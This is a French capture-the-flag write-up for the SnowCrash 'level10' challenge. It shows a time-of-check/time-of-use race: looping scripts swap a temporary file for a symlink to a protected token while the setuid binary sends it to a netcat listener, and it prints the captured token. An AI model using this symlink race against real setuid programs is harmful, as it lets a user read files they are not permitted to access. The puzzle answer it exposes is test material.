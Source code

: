 # Level10

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

Le programme nous refuse l'accès à token

```bash
level10@SnowCrash:~$ ./level10 token 0.0.0.0
You don't have access to token
```

Avec objdump nous remarquons que le binaire utilise access 

```asm
8048746:       89 04 24                mov    %eax,(%esp)
 8048749:       e8 92 fe ff ff          call   80485e0 <access@plt>
 804874e:       85 c0                   test   %eax,%eax
```

Sur le man de access il est stipulé qu'il peut y avoir une faille de sécurité:

![image](./screen1.png)

Il faudrait donc faire en sorte de changer rapidement le fichier au quel nous avons les droits par un lien symbolique vers un fichier dont nous n'avons pas les droits, dans le court laps de temps séparant l'appel à access et la lecture du fichier

Nous procédons avec 3 scripts lancés en parallèle sur des terminaux SSH concurrents:

```bash
level10@SnowCrash:/tmp$ cat prog.sh
while [ 1 ]
do
        rm /tmp/test
        touch /tmp/test
        rm /tmp/test
        ln -s /home/user/level10/token /tmp/test
done
```

```bash
level10@SnowCrash:/tmp$ cat prog2.sh
while [ 1 ]
do
        /home/user/level10/level10 /tmp/test 0.0.0.0
done
```

```bash
level10@SnowCrash:/tmp$ cat prog3.sh
while [ 1 ]
do
         nc -l 0.0.0.0 6969 > /tmp/mytok
        cat /tmp/mytok
done
```


Sorti du script prog3.sh:

```bash
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
...
```

Quelques occurences nous donne effectivement le contenu du fichier token

```bash
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```